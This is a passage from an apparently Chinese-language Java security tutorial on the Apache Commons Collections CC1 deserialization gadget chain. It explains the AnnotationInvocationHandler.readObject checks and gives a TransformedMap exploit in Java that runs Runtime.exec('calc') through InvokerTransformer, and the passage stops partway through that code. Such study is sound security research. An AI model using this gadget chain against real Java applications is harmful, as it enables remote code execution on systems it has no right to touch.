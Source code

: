 真是太巧了！
在AnnotationInvocationHandler类中的readObject方法中调用了setValue方法，但是要通过两个验证

- 成员不为空
- memberType不是一个实例

![17](/img/JavaSecurity/b4a5306d5f629f5a1a20191ff83e0305_MD5.png)

接下来我们来尝试构造EXP

## TransformedMap 版CC1 EXP

这是理想情况下的payload

```java
package org.example;  
  
import java.io.*;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.map.TransformedMap;  
import java.lang.reflect.Constructor;  
import java.util.HashMap;  
import java.util.Map;  
public class Demo {  
    public static void main(String[] args)throws Exception {  
  
        Runtime r = Runtime.getRuntime();  
  
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});  
  
        HashMap<Object,Object> hashMap = new HashMap<>();  
        hashMap.put("key","value");  
  
        Map<Object,Object> decorateMap = TransformedMap.decorate(hashMap, null, invokerTransformer);  
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  
        Constructor annotationInvocationHandlerConstructor = c.getDeclaredConstructor(new Class[]{Class.class, Map.class});  
        annotationInvocationHandlerConstructor.setAccessible(true);  
        Object o = annotationInvocationHandlerConstructor.newInstance(Override.class, decorateMap);  
  
        serialize(o);  
        unserialize("ser.bin");  
```